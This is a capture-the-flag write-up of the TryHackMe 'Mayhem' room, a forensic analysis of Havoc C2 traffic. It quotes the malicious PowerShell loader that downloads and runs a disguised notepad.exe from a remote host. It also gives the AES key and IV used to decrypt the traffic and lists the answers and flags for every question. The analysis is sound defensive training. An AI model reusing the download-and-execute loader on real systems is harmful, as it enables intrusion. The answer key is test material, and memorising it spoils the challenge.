

# TryHackMe: Mayhem Challenge  

**Room URL:** [https://tryhackme.com/room/mayhemroom](https://tryhackme.com/room/mayhemroom)

---

## 🧠 Scenario

Beneath the tempest's roar, a quiet grace,  
Mayhem's beauty in a hidden place.  
Within the chaos, a paradox unfolds,  
A tale of beauty, in disorder it molds.

Click on the **Download Task Files** button at the top of this task. You will be provided with an `evidence.zip` file. Extract the contents and begin your analysis.

---

## 🔍 Analysis & Questions

> The script is trying to download `notepad.exe` from the following PowerShell commands:
- `$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";`
- `$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";`
- `Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;`
- `$65lmAtnzW8 = New-Object System.Net.WebClient;`
- `$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx); Start-Process -Filepath $LA4rJgSPpx`

> First packet when the GET request was sent:

> The `notepad.exe` tries to execute `demonx64.exe`:

> Exported the file and ran `md5sum`, then checked it on VirusTotal:

> Found the name "Havoc" and researched it:

Refer to this write-up on decrypting Havoc C2:
[https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)

> AES Key and IV found:
- AES Key: `946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca`
- IV Key: `8cd00c3e349290565aaa5a8c3aacd430`

Used this parser to decrypt and analyze the Havoc C2 traffic:  
[https://github.com/Immersive-Labs-Sec/HavocC2-Forensics/blob/main/PacketCapture/havoc-pcap-parser.py](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics/blob/main/PacketCapture/havoc-pcap-parser.py)

> Output from running the script:
  

---

### Q1: What is the SID of the user that the attacker is executing everything under?  
**Answer:** `S-1-5-21-679395392-3966376528-1349639417-1103`  

---

### Q2: What is the Link-local IPv6 Address of the server?  
**Answer:** `fe80::e134:1b0c:c8d5:3020%6`  

---

### Q3: The attacker printed a flag for us to see. What is that flag?  
**Answer:** `THM{HavOc_C2_DeCRypTing_is_Fun_Fun_FUN}`  

---

### Q4: The attacker added a new account as a persistence mechanism. What is the username and password of that account?  
**Answer:** `administrato:WfD3hz3AXZ4n`

---

### Q5: The attacker found an important file on the server. What is the full path of that file?  
**Answer:** `C:\Users\paco\Desktop\Files\clients.csv`  

---

### Q6: What is the flag found inside the file from question 5?  
**Answer:** `THM{I_Can_SEE_ThE_fiL3_YoU_ToOk}`  

